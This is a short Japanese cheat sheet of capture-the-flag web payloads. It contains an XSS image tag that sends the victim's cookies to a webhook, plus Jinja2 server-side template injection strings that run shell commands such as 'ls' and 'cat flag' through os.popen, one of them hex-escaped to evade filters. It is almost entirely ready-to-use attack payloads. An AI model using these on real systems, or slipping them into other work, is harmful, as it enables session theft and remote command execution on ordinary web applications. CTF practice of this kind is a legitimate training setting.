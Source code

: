 # CTFチートシート
## 目次
- Table of Content
{:toc}

## XSS
通常バージョン
```javascript:XSS
```
```html:XSS
&lt;img src=x onerror=fetch(atob('webhookURL(btoa)')+?cookie='+document.cookie)&gt;
```
## SSTI:
問題にどこにファイルがあるかわからない時には
```Python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```Python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```Python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
